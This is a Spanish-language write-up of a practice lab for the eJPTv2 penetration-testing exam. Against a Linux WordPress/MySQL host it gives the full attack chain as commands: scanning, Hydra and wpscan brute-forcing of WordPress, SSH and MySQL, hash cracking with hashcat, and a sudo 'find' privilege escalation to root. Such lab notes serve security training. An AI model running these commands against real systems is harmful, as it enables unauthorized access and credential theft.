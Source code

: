 # Simulación de examen eJPTv2

Tags: #Nmap #Apache #WordPress #Linux #Dirbuster #Hydra #SearchSploit #SSH #Sudoers #MySQL #Metasploit #HashCat 

## Maquina 1 

- IP ->  VMware
- Ports -> TCP (22, 80, 3306), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.9p1 Debian 10+deb10u2
    - 80 -> Apache httpd 2.4.38
    - 3306 -> MySQL 5.5.5-10.3.38-MariaDB-0+deb10u1

## Recon

Con estos dos comandos podemos escanear la red en donde nos encontremos. 
```bash
❯ arp-scan -I ens33 --localnet --ignoredups       # Para hacer un escaneo de la red local, no puedes encontrar mas usuarios despues del router que no pertenecen a tu red
```

```bash 
❯ nmap -sn ❮Target_IP/24❯                         # Usara ARP para escanear la red
``` 

Para ver los puertos y servicios.
```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

### Enumeración del Puerto 80
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Abrimos la pagina web en el navegador, encontramos un Apache como pagina por el puerto 80.

Ahora vamos a enumerar la web, para encontrar mas directorios.
```python
❯ dirb http://<IP>/             # Para encontrar rutas en la pagina web  

# Encontramos varias rutas como 
	# /admin, /Downloads, /wordpress, /server-status, /admin/doc
```

Como encontramos un WordPress, enumeraremos los usuarios con su herramienta. 
```bash
❯ wpscan --url http://URL/wordpress/ -e u                                             # Enumeracion WordPress

	# u = Enumerar usuarios

# Encontramos algunos usuarios como 
	# admin, hugo, philip
```

```bash
❯ wpscan --url http://URL/wordpress/ --passwords /usr/share/wordlists/rockyou.txt      # BruteForce

	# passwords = Enumerar passwords

# Encontramos algunas passwds  
	# admin:password, hugo:9876543210, philip:password

# Tambien nos muestra que el WordPress tiene una version 4.8.22, buscando la version actual que es 6.1
```

* También podríamos enumerar los plugin. 
```bash 
/wordpress/wp-admin/plugins.php
```

En dado caso de que no tengamos esas herramientas, podemos usar Hydra, para encontrar usuarios y sus passwd
Esto se usa en el panel del admin de WP.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'
# Haremos un ataque de fuerza bruta a WordPress

	# l (ele) = Usuario que en este caso es  'admin'
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

Y así logramos entrar al login de la web. 


### Enumeración del Puerto 22

```bash
❯ searchsploit openssh 7.9p1                 # Para buscar un exploit con esa version de OpenSSH, pero como no encontramos usaremos Hydra
```

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯/ 
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users'

# Encontramos dos usuarios y dos passwd
	# vagrant:vagrant, debian:debian
```

### Enumeración del Puerto 3306

```bash 
❯ mysql -u root -p -h <IP>

	# h = Host
	# u = User
	# p= passwd    -> Passwd por defecto   -> Solo enter, root, admin

# Una vez dentro podemos hacer lo siguiente
	> show databases;                                # Muestra todas las bases de datos existentes
	> use ❮DB_name❯;                                 # Usamos una base de datos especifica
	> show tables;                                   # Miramos las tablas de la base de datos
	> select * from wp-users;                        # Seleccionamos todo de la tabla de 'wp_users'
# Encontramos los usuarios y las passwd con hash
```
Como no conseguimos el acceso podríamos usar Metasploit o Hydra

```python 
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://<IP>

# Si nos sale el error 'blocked' es prque no podremos hacer ataques de fuerza bruta
```

Por lo que para romper los hashes de las passwd, lo haremos con Hashcat. **Pero ante debemos de colocar el hash dentro de un archivo llamado hash.txt.**  
```bash 
❯ hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 

	# m = 400 = $P%
	# hash.txt = Archivo que contiene el hash
	# Ruta del diccionario 
```


## User

```bash
❯  ssh ❮User❯@❮IP❯                                  # Para conectarnos por ssh en el puerto default 22 con los usuarios obtenidos 
```

## Root

```
❯ contrab -l       # Listas las tareas CRON 
```

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

Buscamos en la siguiente pagina:
- **GTFOBins**: [https://gtfobins.github.io](https://gtfobins.github.io/)
* [Find-exploit](https://andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/)

```bash 
❯ sudo find /etc/passwd-exec /bin/bash \;
```

### Siendo Root

```bash 
❯ cat /etc/passwd        # Podemos enumerar la cantidad de usuarios, terminan en /bin/bash
❯ cd /home               # Ahi nos salen los dir de cada usuario con 'ls'

❯ cd /var/www/html/wordpress                # Podemos mirar el archivo de configuracion de Wordpress... 
	# wp-config.php               -> Archivo con todas las configuraciones generales
	# wp-settings.php             -> Archivo de configuracion, encargado de los plugins
❯ cd /var/www/html/wordpress/wp-admin       # Directorio que contiene mas informacion como formulario
❯ cd /var/www/html/wordpress/wp-content     # Directorio que contiene los directorios de plugins y los temas.
```

## Metasploit Mysql

```bash 
❯ msfconsole -q                   # q = Quitar el banner de inicio

❯ search mysql_login              # Buscamos el exploit
	❯ use 0 
	❯ show options 
	❯ set RHOSTS 192.168.68.1    # Colocamos la IP de la maquina de atacante
	❯ set PASS_FILE /usr/chare/metasploit-framework/data/wordlists/unix_passwords.txt   # Agregamos la ruta del diccionario de passwd que tengamos en nuestra maquina
	❯ run 

# Si nos sale error, quiere decir que hay una regla que nos bloquea el ataque por fuerza bruta 
```

### Pivoting

Para saber si se puede hacer Pivoting es colocar le siguiente comando dentro de la maquina victima.
```bash 
❯ ifconfig         # Para ver la direccion IP de la maquina  
❯ ip a             # Miramos los adaptadores de red y con eso miraremos si hay mas de uno para poder hacer el Pivoting
```